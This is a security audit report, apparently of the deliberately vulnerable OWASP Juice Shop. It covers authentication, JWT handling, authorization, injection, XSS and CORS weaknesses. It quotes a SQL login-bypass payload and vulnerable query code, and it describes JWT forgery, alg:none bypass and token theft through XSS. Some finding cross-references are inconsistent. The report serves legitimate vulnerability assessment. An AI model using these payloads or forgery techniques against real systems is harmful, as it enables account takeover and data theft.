- [7.2.2 Social Login Adapter (OAuth)](#722-social-login-adapter-oauth)
- [7.2.3 Multi-Factor Authentication (TOTP)](#723-multi-factor-authentication-totp)

**Implemented controls:** Password-based login at `routes/login.ts`, optional Google OAuth adapter in `oauth.component.ts`, TOTP 2FA at `routes/2fa.ts`.

**Assessment:** The authentication subsystem has no viable control once the private key is known (which it is - it's in the public repo). SQL injection makes username/password validation moot for the SQL database path. All three authentication mechanisms are compromised at the foundational JWT layer. Each successful flow terminates in the server issuing a session token; the signing, validation, storage, and lifecycle of that token are described in [§7.3 Session and Token Controls](#73-session-and-token-controls).

<a id="721-password-based-authentication"></a>
#### 7.2.1 Password-Based Authentication

**Status:** 🔴 Unsafe - raw SQL string interpolation in the login query enables one-liner auth bypass; `MD5` password hashing provides no practical resistance to offline cracking.

`routes/login.ts` is the primary credential verification handler. It receives `email` and `password` in the request body, calls `security.hash()` on the password (`MD5` at `lib/insecurity.ts:43`), and issues a query against the `Users` SQLite table. Registration is handled by the Sequelize auto-REST endpoint at `POST /api/Users` - no email verification, no server-side role restriction. Password reset is at `routes/resetPassword.ts:22`, requiring a security-question answer. Password change is at `routes/changePassword.ts`.

The diagram shows the positive password-login path, including the raw SQL construction that is the primary weakness:



**Security assessment**

Two independent weaknesses sit on the login path:

- `routes/login.ts:34` constructs the query via string interpolation - a single quote in the email field closes the SQL string and `' OR '1'='1` returns the first user row (the seeded admin account).
- `lib/insecurity.ts:43` hashes passwords with unsalted `MD5` (`crypto.createHash('md5')`), so any dump obtained through injection immediately yields recoverable plaintext.
- Registration at `POST /api/Users` accepts any email with no verification, and the `role` field is settable server-side only via Sequelize auto-REST - but an attacker with a forged JWT can bypass this anyway.
- Password reset uses `X-Forwarded-For` for rate-limiting without proxy validation (`server.ts:346`), allowing limit bypass.

**Relevant findings**

- 🔴 [F-003](#f-003) — SQL injection in the login query enables authentication bypass with a crafted email value.
- 🔴 [F-004](#f-004) — SQL injection in the search endpoint demonstrates the same raw query construction pattern.
- 🟠 [F-020](#f-020) — MD5 password hashing means any dump from the SQL injection path yields crackable credentials immediately.
- 🟠 [F-025](#f-025) — Rate-limit bypass via forged `X-Forwarded-For` defeats the only brute-force mitigation on reset.

<a id="722-social-login-adapter-oauth"></a>
#### 7.2.2 Social Login Adapter (OAuth)

**Status:** 🔴 Unsafe - OAuth is implemented as a frontend identity adapter terminating in local login; the resulting session inherits the same SQL injection and JWT forgery weaknesses.

`oauth.component.ts` implements the OAuth flow as a frontend-only adapter, not a server-side authorization-code flow. It reads an access token from the redirect URL, calls Google's userinfo endpoint through `UserService.oauthLogin()`, derives a deterministic local password from the returned email using `btoa(email)`, creates a local user account if absent, and then calls the standard `POST /rest/user/login` endpoint.

The diagram shows how the OAuth adapter converts a Google identity into a local session via the same login path:



**Security assessment**

This is not a full server-side OAuth control. It uses OAuth as a frontend identity hint and converts the Google profile into a deterministic local-password login. The derived password is `btoa(email)` - trivially reversible from the email address. The resulting session inherits the full JWT forgery risk (🔴 [F-005](#f-005) — Hardcoded RSA Private Key (lib/insecurity.ts:23)) and the implicit-flow PKCE gap (🟠 [F-008](#f-008) — OAuth Implicit Flow Without PKC… (frontend/src/app/login/login.component.ts:134)).

**Relevant findings**

- 🔴 [F-001](#f-001) — Derived password from OAuth email is predictable and allows account takeover without OAuth interaction.
- 🟠 [F-008](#f-008) — Implicit OAuth flow without PKCE or state validation exposes the access token in the URL.

<a id="723-multi-factor-authentication-totp"></a>
#### 7.2.3 Multi-Factor Authentication (TOTP)

**Status:** 🟡 Partial - TOTP enrollment and verification are implemented and rate-limited; however, the committed JWT private key allows forging a token that bypasses the 2FA check entirely.

TOTP 2FA is implemented at `routes/2fa.ts`. Enrollment stores a TOTP secret encrypted in the user record. Verification is at `POST /rest/2fa/verify` and requires the user to supply a valid TOTP code before the login flow proceeds. The endpoint is rate-limited at 100 requests per 5 minutes.



**Security assessment**

- Enrollment and verification logic are structurally correct - the TOTP secret is stored per-user and the code window is validated.
- The JWT private key being committed (`lib/insecurity.ts:23`) means an attacker can forge a JWT with the `totpSecret: ''` claim, bypassing the 2FA requirement entirely - the 2FA check is never reached for a forged token.
- Rate limiting on `/rest/2fa/verify` is the only brute-force control; it inherits the `X-Forwarded-For` bypass (🟠 [F-025](#f-025) — Rate Limit Bypass via X Forwarded For Spoofing server.ts:346).

**Relevant findings**

- 🔴 [F-005](#f-005) — Hardcoded RSA private key enables forging a JWT that bypasses TOTP verification entirely.
- 🟠 [F-025](#f-025) — Rate-limit bypass via forged X-Forwarded-For undermines the only brute-force control on 2FA verification.

### 7.3 Session and Token Controls

**Verdict:** 🔴 Unsafe - The JWT signing key is committed to the public repository; `express-jwt@0.1.3` accepts the `alg:none` bypass; token revocation does not survive process restarts.

**Controls covered:**

- [7.3.1 Session Token Signing (JWT Based)](#731-session-token-signing-jwt-based)
- [7.3.2 Session Token Validation (JWT Based)](#732-session-token-validation-jwt-based)
- [7.3.3 Session Token Storage (Browser localStorage)](#733-session-token-storage-browser-localstorage)
- [7.3.4 Session Token Revocation](#734-session-token-revocation)
- [7.3.5 Session Token Expiry](#735-session-token-expiry)

**Implemented controls:** `RS256` JWT signing via `lib/insecurity.ts:issueAuthToken()`, token validation via `express-jwt@0.1.3` middleware, in-memory token map at `security.authenticatedUsers`, cookie transport via `cookieParser`.

**Assessment:** This application uses a single locally-signed token format (commonly called JWT) for every authenticated session, regardless of the login flow in [§7.2](#72-identity-and-authentication-controls) that established it. The sub-sections below trace one token through its lifecycle: signing on issuance, validation on every protected request, storage in the browser, manual revocation, and time-based expiry. Both the JWT algorithm vulnerability and the committed private key independently enable complete token forgery - either alone defeats every downstream authorization control.

<a id="731-session-token-signing-jwt-based"></a>
#### 7.3.1 Session Token Signing (JWT Based)

**Status:** 🔴 Unsafe - Private key committed to the repository at `lib/insecurity.ts:23`; any party with a repo clone can mint arbitrary tokens the server accepts.

⚠ **Anti-pattern:** Secrets hardcoded in source

`lib/insecurity.ts:issueAuthToken()` signs a `{id, email, role, basket_id}` payload using `jwt.sign()` with the RSA private key stored inline in the file. The key is 1024-bit RSA and the full PEM is plaintext in the public repository. Both `routes/login.ts` and `routes/2fa/verify.ts` call this helper, so the format and signing material are uniform across all login flows.

The diagram shows the positive issuance path from a verified user record to the encoded JWT:



**Security assessment**

The intended control - asymmetric signature on a short-lived token - is structurally sound, but both the key material and the verifier are compromised:

- `lib/insecurity.ts:23` contains the full `[PEM PRIVATE KEY - REDACTED]
<REDACTED - key bytes masked>
-----END RSA PRIVATE KEY-----'
```

**Relevant findings**

- [F-005](#f-005) — Hardcoded RSA private key in source allows any party with a repo clone to mint valid admin tokens.
- [F-002](#f-002) — JWT algorithm confusion (alg:none) allows dropping the signature entirely, making the key irrelevant.

<a id="732-session-token-validation-jwt-based"></a>
#### 7.3.2 Session Token Validation (JWT Based)

**Status:** 🔴 Unsafe — `express-jwt@0.1.3` is pre-CVE-2020-15084 and accepts the `alg:none` attack; no algorithm allowlist is configured.

Token validation is performed by `express-jwt@0.1.3` middleware applied to protected routes via `security.isAuthorized()` in `lib/insecurity.ts`. The middleware verifies the JWT signature against the RSA public key and attaches the decoded payload to `req.user`. Routes that call `security.isAuthorized()` rely on this middleware to authenticate the request before the route handler runs.

The diagram shows the validation path for a protected request, including the two bypass vectors:



**Security assessment**

- `express-jwt@0.1.3` predates the CVE-2020-15084 patch; a token with `"alg":"none"` and an empty signature passes validation without any key material.
- No `algorithms: ['RS256']` allowlist is configured in `lib/insecurity.ts:57`, leaving the algorithm field attacker-controlled.
- `jsonwebtoken@0.4.0` (2014) lacks modern algorithm enforcement and is a second independent path to the same outcome.

**Relevant findings**

- [F-002](#f-002) — Missing algorithm allowlist in express-jwt configuration allows alg:none bypass.
- [F-005](#f-005) — Committed private key makes signature validation moot for an attacker with a repo clone.

<a id="733-session-token-storage-browser-localstorage"></a>
#### 7.3.3 Session Token Storage (Browser localStorage)

**Status:** 🔴 Unsafe — JWT stored in `localStorage`, accessible to any XSS payload; no HttpOnly cookie mitigates the token theft.

⚠ **Anti-pattern:** SPA without BFF

`frontend/src/app/services/request.interceptor.ts` reads the JWT from `localStorage` and attaches it to outbound requests as an `Authorization: Bearer` header. The token is written to `localStorage` immediately after login in `login.component.ts`. The cookie at `token=` is also set by the server but is not marked HttpOnly, so both surfaces are readable by script.

**Security assessment**

`localStorage` is reachable by any JavaScript running in the page origin — including the three stored and reflected XSS payloads in §7.7. Once an XSS payload executes, `localStorage.getItem('token')` yields the full JWT, enabling session hijacking with no further interaction. The missing Backend-for-Frontend (BFF) pattern is the structural gap: a BFF would hold the token server-side in an HttpOnly `SameSite=Strict` cookie, making it invisible to script.

**Relevant findings**

- [F-019](#f-019) — JWT stored in localStorage is reachable by any XSS execution in the application origin.
- [F-010](#f-010) — Missing CSP means there is no second-layer control to limit what an XSS payload can do with the stolen token.

<a id="734-session-token-revocation"></a>
#### 7.3.4 Session Token Revocation

**Status:** 🔴 Unsafe — In-memory token map does not survive process restarts; no logout endpoint invalidates the JWT on the server.

Session tracking uses `security.authenticatedUsers.tokenMap` — an in-memory Map populated at login and checked by `security.authenticatedUsers.get(token)` at protected routes. Logout at `routes/logout.ts` calls `security.authenticatedUsers.put(token, null)` to mark the token as revoked.

**Security assessment**

The in-memory map is the only revocation mechanism. A process restart clears all session state — all existing JWTs remain cryptographically valid for their 6-hour lifetime after the map is cleared. Horizontal scaling is not a current concern (single-process), but the design cannot support it. The committed private key means an attacker does not need a valid session — they can forge one at any time.

**Relevant findings**

- [F-005](#f-005) — JWT forgery via committed key makes token revocation irrelevant; an attacker can generate a new valid token at will.

<a id="735-session-token-expiry"></a>
#### 7.3.5 Session Token Expiry

**Status:** 🟡 Partial — Tokens carry a 6-hour expiry claim, but the committed key allows minting tokens with arbitrary expiry.

`issueAuthToken()` sets `expiresIn: '6h'` in the JWT payload. `express-jwt` enforces the `exp` claim when validating incoming tokens.

**Security assessment**

Token expiry is structurally implemented and `express-jwt` checks the `exp` claim. The control is undermined by the committed private key: an attacker can mint a token with `expiresIn: '100y'` that the server accepts indefinitely. The expiry control is effectively absent while the key remains committed.

**Relevant findings**

- [F-005](#f-005) — Committed private key allows minting tokens with arbitrary expiry, defeating the 6-hour lifetime.

### 7.4 Authorization Controls

**Verdict:** 🟠 Weak — Per-route middleware application leaves several admin and sensitive endpoints exposed; BOLA on the basket endpoint; role claims are forgeable via the committed private key.

**Controls covered:** [7.4.1 Route-Level Authorization Middleware](#741-route-level-authorization-middleware) · [7.4.2 Role-Based Access Control](#742-role-based-access-control) · [7.4.3 Object-Level Authorization](#743-object-level-authorization)

**Implemented controls:** `security.isAuthorized()` JWT middleware on selected routes, `security.isAccounting()` role check for accounting routes, `security.appendUserId()` for user-scoped data operations.

**Assessment:** Authorization is applied per-route rather than as a blanket middleware. Several administrative, file-serving, and metrics endpoints are reachable without any JWT — the check list is maintained manually with no enforcement at the framework level. Role authorization is rendered moot by JWT forgery.

<a id="741-route-level-authorization-middleware"></a>
#### 7.4.1 Route-Level Authorization Middleware

**Status:** 🟠 Weak — `security.isAuthorized()` protects most business routes but is absent on `/ftp/`, `/encryptionkeys/`, `/support/logs/`, `/rest/admin/application-version`, and `/rest/admin/application-configuration`.

`lib/insecurity.ts:isAuthorized()` wraps `express-jwt` and is applied as inline middleware to routes that require authentication. `server.ts` mounts `serve-index` at `/ftp/` and `/encryptionkeys/` and `express.static` at `/support/logs/` — these are unauthenticated by design for CTF purposes.

**Security assessment**

Unauthenticated routes expose backup files at `/ftp/`, RSA public key and premium key at `/encryptionkeys/`, and application access logs at `/support/logs/`. The admin application-configuration endpoint at `/rest/admin/application-configuration` returns runtime config without any auth check. The per-route pattern means each new endpoint must explicitly add middleware — there is no default-deny stance.

**Relevant findings**

- [F-027](#f-027) — Missing authentication on admin endpoints exposes application configuration and version without credentials.
- [F-026](#f-026) — Client-side-only admin route guard is bypassed by direct API calls; no server-side enforcement backs the Angular guard.

<a id="742-role-based-access-control"></a>
#### 7.4.2 Role-Based Access Control

**Status:** 🔴 Unsafe — Role claims live in the JWT payload; since the private key is committed, any attacker can assign themselves the `admin` or `accounting` role.

`security.isAccounting()` at `lib/insecurity.ts:156` extracts the `role` claim from the decoded JWT payload and checks it against `'accounting'`. Administrative actions similarly rely on the `role` claim. There is no server-side role store; the JWT claim is the authoritative source of truth.

**Security assessment**

Role authorization is structurally correct — it gates admin actions behind a role check. The control fails because the JWT payload is attacker-controlled (forged via committed key). Any party with the private key can set `role: 'admin'` in the payload and the check passes. The Angular-side route guard in `app.guard.ts:54` checks the same decoded token client-side, providing no additional protection.

**Relevant findings**

- [F-005](#f-005) — Committed private key allows forging tokens with arbitrary role claims.
- [F-026](#f-026) — Client-side-only Angular route guard provides no server-side role enforcement.

<a id="743-object-level-authorization"></a>
#### 7.4.3 Object-Level Authorization

**Status:** 🟠 Weak — Basket endpoint fetches by ID without checking the requesting user's ownership; several order and delivery routes share the same gap.

`routes/basket.ts:19` retrieves a basket by `req.params.id` — a sequential integer — without comparing the basket's `UserId` to the authenticated user's id from `req.user`. The route is protected by `security.isAuthorized()` (authentication required) but not by an ownership check.

**Security assessment**

Incrementing the basket ID in the URL returns any user's basket, including order contents. The same pattern is present on delivery-address and order-history routes. `security.appendUserId()` is used on some write paths but not consistently on read paths.

**Relevant findings**

- [F-028](#f-028) — Missing ownership check on review update allows any authenticated user to modify all product reviews.
- [F-029](#f-029) — Mass update enabled on review endpoint (multi: true) compounds the object-level authorization gap.

### 7.5 Query Construction and Data Access Controls

**Verdict:** 🔴 Unsafe — Two unparameterized SQL queries (login, search) and NoSQL `$where` operator injection in product reviews and order tracking.

**Controls covered:** [7.5.1 SQL Query Construction (Sequelize + Raw Queries)](#751-sql-query-construction-sequelize-raw-queries) · [7.5.2 NoSQL Query Construction (MarsDB)](#752-nosql-query-construction-marsdb)

**Implemented controls:** Sequelize ORM with parameterized queries on most model operations; MarsDB for product reviews.

**Assessment:** Sequelize ORM parameterization is used correctly on the vast majority of data access paths. The two raw `sequelize.query()` call sites on the login and search routes are intentional CTF challenges, but they represent the highest-impact injection vectors in the application. The MarsDB `$where` operator similarly evaluates JavaScript, providing a second independent injection path.

<a id="751-sql-query-construction-sequelize--raw-queries"></a>
#### 7.5.1 SQL Query Construction (Sequelize + Raw Queries)

**Status:** 🔴 Unsafe — Login and search routes bypass Sequelize parameter binding and construct raw SQL strings via template literals.

Sequelize backs most relational data access, and the generated Sequelize model queries use parameterized `?` placeholders by default. The login and search routes deviate from this pattern and call `models.sequelize.query()` directly with user input interpolated into the SQL string.

The vulnerable login lookup is built as a raw SQL string:

```ts
models.sequelize.query(
  `SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`
)
```

**Security assessment**

Login and search both string-interpolate untrusted input into SQL, bypassing Sequelize's ORM parameter binding. The login query allows authentication bypass with a crafted email; the search query allows `UNION`-based data extraction. Same anti-pattern on two separate routes — not an isolated regression.

**Relevant findings**

- [F-003](#f-003) — SQL injection in login query enables authentication bypass and admin account access.
- [F-004](#f-004) — SQL injection in product search enables UNION-based data extraction from all tables.
- [F-035](#f-035) — Schema exposure via `sqlite_master` query in the search path leaks table structure.

<a id="752-nosql-query-construction-marsdb"></a>
#### 7.5.2 NoSQL Query Construction (MarsDB)

**Status:** 🔴 Unsafe — `$where` JavaScript evaluation operator used in product review and order tracking queries with user-controlled input.

MarsDB is used for product review storage. `routes/showProductReviews.ts:34` retrieves reviews using a `$where` clause that constructs a JavaScript expression string from the `id` path parameter. `routes/updateProductReviews.ts:17` uses `multi: true` with an unvalidated `_id` from the request body. `routes/trackOrder.ts:18` uses the same `$where` pattern against order tracking.

**Security assessment**

MarsDB's `$where` operator evaluates the provided string as JavaScript inside the database. An attacker can inject arbitrary JavaScript that executes in the Node\.js process. The `multi: true` flag on the update route means a single crafted query can overwrite all product reviews simultaneously. The `global.sleep` definition in `routes/showProductReviews.ts` enables timing-based DoS.

**Relevant findings**

- [F-014](#f-014) — NoSQL `$where` injection in product reviews allows JavaScript execution in the database runtime.
- [F-015](#f-015) — NoSQL `$where` injection in order tracking shares the same evaluation vector.
- [F-029](#f-029) — `multi: true` on review update enables mass overwrite of all review records.

### 7.6 Input Boundary Validation Controls

**Verdict:** 🟡 Partial — File size and type checks present via multer; no framework-level schema validation on route handlers; most endpoints accept arbitrary input shapes.

**Controls covered:** [Validation Approach](#validation-approach) · [7.6.1 File Upload Validation](#761-file-upload-validation) · [7.6.2 Route Input Schema Validation](#762-route-input-schema-validation)

**Implemented controls:** multer file size limit (200KB), file extension check in `checkFileType`, URL path deduplication in `server.ts`, captcha on feedback submission.

**Assessment:** Boundary validation is present only at the file upload layer. Route handlers that accept JSON bodies (login, user creation, basket updates, order placement) perform no schema validation. Joi, zod, and express-validator are absent from `package.json`.

<a id="761-file-upload-validation"></a>
#### Validation Approach

This codebase applies input validation within individual route handlers and parsing layers (see the boundary-specific sub-blocks below) rather than through a single application-wide validation schema enforced across all endpoints.

**Security assessment**

_Not assessed in detail; see the control overview in §7.1._

**Relevant findings**

- None identified for this control.
#### 7.6.1 File Upload Validation

**Status:** 🟡 Partial — multer enforces a 200KB size limit and extension allowlist; parser configuration weaknesses in the accepted types defeat the intent of the check.

`routes/fileUpload.ts` is the primary upload handler. multer is configured with `limits: { fileSize: 200000 }` and `checkFileType` validates that uploaded files have extensions in `['.pdf', '.xml', '.zip', '.yml', '.yaml']`. File type validation uses the file extension rather than magic bytes.

**Security assessment**

The file size and extension controls are structurally present. The gap is in how accepted types are processed downstream: XML files are parsed with `noent: true` (XXE), ZIP files are extracted with an incomplete path check (path traversal), and YAML files are parsed without anchor-expansion limits (YAML bomb). Accepting these file types with current parser configurations means the extension check guards a perimeter that the parsers immediately compromise.

**Relevant findings**

- [F-016](#f-016) — XXE via external entity processing on uploaded XML files.
- [F-030](#f-030) — Path traversal via incomplete ZIP entry path check on complaint archive extraction.
- [F-026](#f-026) — YAML bomb resource exhaustion via unbounded anchor expansion on uploaded YAML files.

<a id="762-route-input-schema-validation"></a>
#### 7.6.2 Route Input Schema Validation

**Status:** 🔴 Missing — No schema validation framework is applied to JSON request bodies; route handlers consume `req.body` fields directly.

Route handlers destructure `req.body` directly without declaring expected shape, type, or bounds. `body-parser` is configured in `server.ts` to parse JSON and URL-encoded bodies, but no middleware validates the parsed body against a schema before the handler runs.

**Security assessment**

The absence of schema validation means type confusion, unexpected field injection, and oversized payloads reach handler logic. The captcha evaluation at `routes/captcha.ts:22` calls `eval(expression)` on a user-derived expression — the only "validation" is the challenge-detection pattern match. No route declares required fields, and missing or extra fields are silently tolerated.

**Relevant findings**

- [F-023](#f-023) — CPU exhaustion via unbounded safeEval in B2B order endpoint; input size is unconstrained.
- [F-026](#f-026) — YAML bomb is enabled by unconstrained YAML body parsing without anchor-expansion limits.

### 7.7 Output Encoding and Rendering Controls

**Verdict:** 🔴 Unsafe — Angular's DomSanitizer is explicitly bypassed in three components; the Helmet XSS filter is intentionally disabled in `server.ts`.

**Controls covered:** [7.7.1 Angular Template Sanitization](#771-angular-template-sanitization) · [7.7.2 Server-Side Output Encoding](#772-server-side-output-encoding)

**Implemented controls:** Angular default template escaping for `{{ }}` interpolation bindings. Helmet `noSniff` header. Server-side HTML entity encoding on some profile fields.

**Assessment:** Angular's template engine escapes by default — the `{{ value }}` interpolation binding is safe for all components that do not explicitly bypass it. The three components that call `sanitizer.bypassSecurityTrustHtml()` cover the three primary XSS vectors (stored, reflected, and header-injected). The Helmet XSS filter being commented out removes the last browser-side backstop.

<a id="771-angular-template-sanitization"></a>
#### 7.7.1 Angular Template Sanitization

**Status:** 🔴 Unsafe — `DomSanitizer.bypassSecurityTrustHtml()` called in three components, rendering HTML directly from user-controlled data.

Angular's `DomSanitizer` provides `bypassSecurityTrustHtml()` as an explicit escape hatch from the default sanitization pipeline. `about.component.ts:119` passes feedback comment HTML through this method and binds it to `[innerHTML]`. `search-result.component.ts:170` passes the search query parameter. `last-login-ip.component.ts:39` passes the last-login IP value (controllable via the `True-Client-IP` header).

**Security assessment**

Three independent stored or reflected XSS entry points result from the `bypassSecurityTrustHtml()` calls:

- Feedback comment at `about.component.ts:119` — stored XSS persists across all user sessions viewing the About page.
- Search query at `search-result.component.ts:170` — reflected XSS executes immediately on search.
- Last-login IP at `last-login-ip.component.ts:39` — header-injected stored XSS via `True-Client-IP` on login.

All three reach a browser that has the JWT in `localStorage`, making token theft the immediate consequence.

**Relevant findings**

- [F-010](#f-010) — Stored XSS via feedback comment bypasses Angular sanitization.
- [F-013](#f-013) — Reflected XSS via search query parameter bypasses Angular sanitization.
- [F-033](#f-033) — Stored XSS via last-login IP field via header injection.

<a id="772-server-side-output-encoding"></a>
#### 7.7.2 Server-Side Output Encoding

**Status:** 🟡 Partial — Helmet `noSniff` is set; the XSS filter is commented out; no server-side HTML sanitization for user-generated content served in API responses.

`server.ts:187` contains the commented-out line `// app.use(helmet.xssFilter())`. Helmet's `noSniff` (`X-Content-Type-Options: nosniff`) is applied. The server returns raw user-generated content in API responses (feedback comments, user names, product descriptions) without HTML entity encoding — the Angular SPA is expected to handle sanitization, but three components bypass it.

**Security assessment**

The server-side encoding layer relies entirely on the Angular client for output safety. The commented-out XSS filter removes the defense-in-depth backstop. No server-side sanitization library (DOMPurify server-side, sanitize-html) is applied to stored user content before it is served via the REST API.

**Relevant findings**

- [F-010](#f-010) — Stored XSS payloads are persisted without server-side sanitization and returned raw in API responses.
- [F-011](#f-011) — Missing CSP compounds the impact by providing no second-layer script execution control.

### 7.8 Browser and Cross-Origin Controls

**Verdict:** 🔴 Unsafe — `cors()` with no configuration allows any origin; no application-wide Content Security Policy; no CSRF token protection.

**Controls covered:** [7.8.1 CORS Policy](#781-cors-policy) · [7.8.2 Content Security Policy (CSP)](#782-content-security-policy-csp) · [7.8.3 CSRF Protection](#783-csrf-protection) · [7.8.4 Security Headers](#784-security-headers)

**Implemented controls:** Helmet `frameguard` (`X-Frame-Options: SAMEORIGIN`). Helmet `noSniff`. `featurePolicy` scoped to `payment 'self'`. Dynamic per-user CSP on profile page only (user-controlled).

**Assessment:** The two most impactful browser controls — CSP and CORS restriction — are absent or wildcard. The missing CSP allows XSS payloads to exfiltrate tokens to external origins. The wildcard CORS allows any cross-origin request to succeed with credentials, making CSRF exploitation trivial.

<a id="781-cors-policy"></a>
#### 7.8.1 CORS Policy

**Status:** 🔴 Unsafe — `app.use(cors())` with no configuration allows all origins, all methods, and reflects all headers.

`server.ts:182` applies `app.options('*', cors())` and `app.use(cors())` with no arguments. The `cors` package with no configuration defaults to `Access-Control-Allow-Origin: *`, which reflects all request headers and allows all HTTP methods from any origin.

**Security assessment**

Wildcard CORS with no credentials restriction means any page on any origin can make authenticated requests to the Juice Shop API using the user's JWT (via the `Authorization` header, not a cookie). Combined with the `localStorage`-stored token, a cross-origin page cannot directly access `localStorage` but can receive a token exfiltrated by one of the XSS payloads and then make credentialed API calls.

**Relevant findings**

- [F-011](#f-011) — Missing CSP combined with wildcard CORS means XSS payloads can exfiltrate tokens to arbitrary external origins.

<a id="782-content-security-policy-csp"></a>
#### 7.8.2 Content Security Policy (CSP)

**Status:** 🔴 Missing — No application-wide CSP header; the profile-page CSP is user-controlled and exploitable.

No `Content-Security-Policy` header is set at the Helmet or middleware level for the application. `routes/userProfile.ts:88` dynamically constructs a per-request CSP header using the user's `profileImage` value: `` `img-src 'self' ${user?.profileImage}; script-src 'self' 'unsafe-eval'` ``. The `profileImage` field is user-controlled, turning the CSP into an injection vector rather than a protection.

**Security assessment**

